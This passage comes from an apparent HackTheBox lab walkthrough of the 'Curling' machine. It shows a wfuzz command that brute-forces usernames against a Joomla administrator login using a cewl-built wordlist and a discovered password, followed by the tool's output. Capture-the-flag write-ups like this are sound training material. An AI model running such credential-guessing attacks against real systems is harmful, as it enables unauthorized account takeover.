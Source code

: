 ```bash

Your Report : reports/10.10.10.150/  
```

Let's try sign-in to `/administrator` page.
I'll use the output from `cewl`, and password found(`curling2018!`).

```markdown
┌──(kali㉿kali)-[~/htb]
└─$ wfuzz -w usernames.txt -d 'username=FUZZ&passwd=curling2018%21&option=com_login&task=login&return=aW5kZXgucGhw&0cf42eaaa2e368addf159fe402aba5ba=1' http://10.10.10.150/administrator/index.php
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.150/administrator/index.php
Total requests: 218

=====================================================================
ID           Response   Lines    Word       Chars       Payload   
=====================================================================

000000001:   303        0 L      0 W        0 Ch        "the"     
000000003:   303        0 L      0 W        0 Ch        "Curling" 
000000007:   303        0 L      0 W        0 Ch        "are"     
000000015:   303        0 L      0 W        0 Ch        "first"   
000000044:   303        0 L      0 W        0 Ch        "can"     
000000045:   303        0 L      0 W        0 Ch        "feet"   
<SNIP>
```

Unfortunately, none of the username worked.
Instead,  I found one username(`floris`) on the main page.

![](attachments/curling_3.png)

Let me first check if the username exists in the wordlist.
